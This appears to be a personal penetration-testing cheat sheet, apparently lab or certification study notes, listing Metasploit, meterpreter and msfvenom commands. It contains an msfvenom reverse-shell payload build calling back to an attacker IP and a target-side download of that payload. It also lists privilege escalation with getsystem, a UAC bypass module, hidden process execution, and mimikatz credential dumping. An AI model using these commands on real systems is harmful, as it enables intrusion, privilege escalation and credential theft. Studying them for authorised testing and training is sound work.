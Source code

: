   - run -j
  - jobs - checks for runnign jobs

Local commands:
  - lpwd - local (attacking machine) pwd
  - lcd - local (attacking machine) cd
  - upload /usr/bin/<binary> /tmp/ - uploads binary such as linux-privesc-check from Attacking machine to target

Payloads (msfvenom)
  - msfvenom -l payloads --platform windows --arch x64 - lists payloads for windows 64 bit 
  - msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.157 LPORT=443 -f exe -o nonstaged.exe - creates a reverse shell tcp payloads on that for attacker (LHOST) with the exe format and the name nonstaged.exe
  - iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe (execute from Target to download shell)
    - use nc -lvnp 443 or multi/handler
  - use multi/handler - exploit in msf
  - set payload windows/x64/shell/reverse_tcp - so either set up in nc or msfconsole's multi/handler

### Post Exploit 
- idletime (meterpreter) - check that user's idletme
- shell - switch to shell
  - whoami /priv 
- getuid - check user *from meterpreter*
- getsystem - elevate privileges from meterpreter
- ps 
  - then migrate <PID> (check to see if other users are running it)
  - execute -H -f notepad
    - -H = hidden, -f = program
- Check Integrity Level of current process:
  - shell
  - powershell -ep bypass
  - Import-Module NtObjectManager
  - Get-NtTokenIntegrityLevel 
    - If that doesnt work then move on, if it does:
      - search UAC - search for UAC bypass modules
      - use exploit/windows/local/bypassuac_sdclt
        - set SESSION \<x><br>
- From meterpreter:
  - load kiwi (loads mimikatz)
  - help - shows all commands, including creds_msv

## Misc Notes

### Remember
1. you can mkdir a temp directory and write to it
2. One liners if you can't load a module and then run it: `powershell -ep bypass ./PowerUp.ps1` 

### to add to a file without nano 
cat <<'EOT'> file.name
> text
> text
> EOT
(the EOT ends the file)
